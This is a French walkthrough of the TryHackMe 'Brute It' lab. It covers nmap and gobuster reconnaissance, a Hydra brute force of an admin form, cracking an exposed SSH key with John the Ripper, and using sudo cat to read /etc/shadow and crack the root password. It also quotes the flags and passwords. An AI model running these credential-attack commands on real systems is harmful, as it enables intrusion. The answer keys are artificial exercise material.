



# Brute It #

## Task 1 About this box ##

**Deploy the machine**

Cliquez sur Star Machine

## Task 2 Reconnaissance ##

```bash
tim@kali:~/Bureau/tryhackme/write-up$ sudo sh -c "echo '10.10.58.6 bruteit.thm' >> /etc/hosts"

tim@kali:~/Bureau/tryhackme/write-up$ ping bruteit.thm
PING bruteit.thm (10.10.58.6) 56(84) bytes of data.
64 bytes from bruteit.thm (10.10.58.6): icmp_seq=1 ttl=63 time=88.0 ms
64 bytes from bruteit.thm (10.10.58.6): icmp_seq=2 ttl=63 time=79.4 ms
64 bytes from bruteit.thm (10.10.58.6): icmp_seq=3 ttl=63 time=38.2 ms
^C
--- bruteit.thm ping statistics ---
3 packets transmitted, 3 received, 0% packet loss, time 2004ms
rtt min/avg/max/mdev = 38.241/68.526/87.952/21.698 ms
tim@kali:~/Bureau/tryhackme/write-up$ sudo nmap -A bruteit.thm
Starting Nmap 7.91 ( https://nmap.org ) at 2021-08-05 08:55 CEST
Nmap scan report for bruteit.thm (10.10.58.6)
Host is up (0.084s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 4b:0e:bf:14:fa:54:b3:5c:44:15:ed:b2:5d:a0:ac:8f (RSA)
|   256 d0:3a:81:55:13:5e:87:0c:e8:52:1e:cf:44:e0:3a:54 (ECDSA)
|_  256 da:ce:79:e0:45:eb:17:25:ef:62:ac:98:f0:cf:bb:04 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.91%E=4%D=8/5%OT=22%CT=1%CU=32907%PV=Y%DS=2%DC=T%G=Y%TM=610B8B75
OS:%P=x86_64-pc-linux-gnu)SEQ(SP=101%GCD=1%ISR=105%TI=Z%CI=Z%II=I%TS=A)OPS(
OS:O1=M506ST11NW6%O2=M506ST11NW6%O3=M506NNT11NW6%O4=M506ST11NW6%O5=M506ST11
OS:NW6%O6=M506ST11)WIN(W1=F4B3%W2=F4B3%W3=F4B3%W4=F4B3%W5=F4B3%W6=F4B3)ECN(
OS:R=Y%DF=Y%T=40%W=F507%O=M506NNSNW6%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS
OS:%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=
OS:Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=
OS:R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T
OS:=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=
OS:S)

Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 8888/tcp)
HOP RTT       ADDRESS
1   35.53 ms  10.9.0.1
2   105.25 ms bruteit.thm (10.10.58.6)

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 26.53 seconds

```

**How many ports are open?**

D'après le scan nmap on voit deux ports ouverts.   
Le port 22 sur le service SSH.   
Le port 80 sur le service HTTP.   

Réponse : 2.    

**What version of SSH is running?**

Nmap nous montre que la version SSH est : OpenSSH 7.6p1    

Réponse : OpenSSH 7.6p1

**What version of Apache is running?**

Nmap notre montre que les informations d'Apache sont : Apache httpd 2.4.29     

Réponse : 2.4.29     

**Which Linux distribution is running?**

Dans les informations de Nmap, Ubuntu apparaît plusieurs fois.     

Réponse : Ubuntu         

**What is the hidden directory?**

```bash
tim@kali:~/Bureau/tryhackme/write-up$ gobuster dir dir -u http://bruteit.thm -w /usr/share/dirb/wordlists/common.txt -q
/.hta                 (Status: 403) [Size: 276]
/.htpasswd            (Status: 403) [Size: 276]
/.htaccess            (Status: 403) [Size: 276]
/admin                (Status: 301) [Size: 310] [--> http://bruteit.thm/admin/]
/index.html           (Status: 200) [Size: 10918]                              
/server-status        (Status: 403) [Size: 276]    
```

On remarque qu'il y a un répertoire \/admin.

Réponse : \/admin    

## Task 3 Getting a shell ##

**What is the user:password of the admin panel?**



Sur la page admin on nous demande les identifiants.    

```bash
tim@kali:~/Bureau/tryhackme/write-up$ curl http://bruteit.thm/admin/ -s | grep -F '<!--'
    <!-- Hey john, if you do not remember, the username is admin -->
```

Dans les commentaire a le nom de l'utilisateur qui est : admin     

```bash
tim@kali:~/Bureau/tryhackme/write-up$ curl http://bruteit.thm/admin/ -s | grep -F 'input'
            <input type="text" name="user">
            <input type="password" name="pass">
```

Pour utiliser Hydra nous avons besoins des noms des champs. 



Pour filtrer savoir si le mot passe est bon nous avons besoins de connaître le message d'erreur en cas de mauvais mot de passe.    

```bash
tim@kali:~/Bureau/tryhackme/write-up$ hydra -l admin -P /usr/share/wordlists/rockyou.txt bruteit.thm http-post-form "/admin/:user=admin&pass=^PASS^:invalid"
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-08-05 09:37:56
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking http-post-form://bruteit.thm:80/admin/:user=admin&pass=^PASS^:invalid
[80][http-post-form] host: bruteit.thm   login: admin   password: xavier
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2021-08-05 09:38:09
```

Avec hydra nous avons brute forcé le mot de passe.   

Réponse : xavier     

**What is John's RSA Private Key passphrase?**



On a sur la page le nom d'utilisateur qui est : john.   
Le lien sur la page nous affiche la clef.   

```bash
tim@kali:~/Bureau/tryhackme/write-up$ wget -nv http://bruteit.thm/admin/panel/id_rsa
2021-08-05 09:45:39 URL:http://bruteit.thm/admin/panel/id_rsa [1766/1766] -> "id_rsa" [1]


tim@kali:~/Bureau/tryhackme/write-up$ /usr/share/john/ssh2john.py id_rsa > hash
tim@kali:~/Bureau/tryhackme/write-up$ john hash --wordlist=/usr/share/wordlists/rockyou.txt 
Using default input encoding: UTF-8
Loaded 1 password hash (SSH [RSA/DSA/EC/OPENSSH (SSH private keys) 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 4 OpenMP threads
Note: This format may emit false positives, so it will keep trying even after
finding a possible candidate.
Press 'q' or Ctrl-C to abort, almost any other key for status
rockinroll       (id_rsa)
Warning: Only 2 candidates left, minimum 4 needed for performance.
1g 0:00:00:02 DONE (2021-08-05 09:50) 0.3831g/s 5494Kp/s 5494Kc/s 5494KC/sa6_123..*7¡Vamos!
Session completed

```

On télécharge la clef.   
On la convertie pour que john the ripper puisse la casser. 
On brute force la clef.   

La réponse est : rockinroll     

**user.txt**

```bash
tim@kali:~/Bureau/tryhackme/write-up$ chmod 600 id_rsa 

tim@kali:~/Bureau/tryhackme/write-up$ ssh -i id_rsa john@bruteit.thm
Enter passphrase for key 'id_rsa': 
Welcome to Ubuntu 18.04.4 LTS (GNU/Linux 4.15.0-118-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Thu Aug  5 08:02:48 UTC 2021

  System load:  0.08               Processes:           103
  Usage of /:   25.7% of 19.56GB   Users logged in:     0
  Memory usage: 39%                IP address for eth0: 10.10.58.6
  Swap usage:   0%


63 packages can be updated.
0 updates are security updates.


Last login: Wed Sep 30 14:06:18 2020 from 192.168.1.106

john@bruteit:~$ cat user.txt
THM{a_password_is_not_a_barrier}
```

On met les bon droits sur id_rsa.   
On se connect sur une session SSH avec le bon mot passe.    
On regarde dans le fichier user.txt.   

La réponse est : THM{a_password_is_not_a_barrier}  

**Web flag**


Une foit que l'on a saisit le nom d'utilisateur et le mot de passe, on tombe sur page qui nous affiche le flag.   

La réponse est : THM{brut3_f0rce_is_e4sy}  

## Task 4 Privilege Escalation ##

**What is the root's password?**

```bash
john@bruteit:~$ sudo -l
Matching Defaults entries for john on bruteit:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User john may run the following commands on bruteit:
    (root) NOPASSWD: /bin/cat
```

sudo est configurée pour demander aucun password sur cat.   

```bash
john@bruteit:~$ sudo /bin/cat /etc/shadow > shadow

tim@kali:~/Bureau/tryhackme/write-up$ scp -i id_rsa john@bruteit.thm:shadow ./
Enter passphrase for key 'id_rsa': 
shadow                          

tim@kali:~/Bureau/tryhackme/write-up$ john shadow -w=/usr/share/wordlists/rockyou.txt 
Using default input encoding: UTF-8
Loaded 3 password hashes with 3 different salts (sha512crypt, crypt(3) $6$ [SHA512 256/256 AVX2 4x])
Cost 1 (iteration count) is 5000 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
football         (root)
```

On récupère le contenue de shadow.   
On le transfère sur notre machine.   
On le crack avec john.   

La réponse est : football    

**root.txt**

```bash
john@bruteit:~$ sudo /bin/cat /root/root.txt
THM{pr1v1l3g3_3sc4l4t10n}
```

Il suffit juste de lire le fichier root.txt dans root.   

La réponse est : THM{pr1v1l3g3_3sc4l4t10n}         


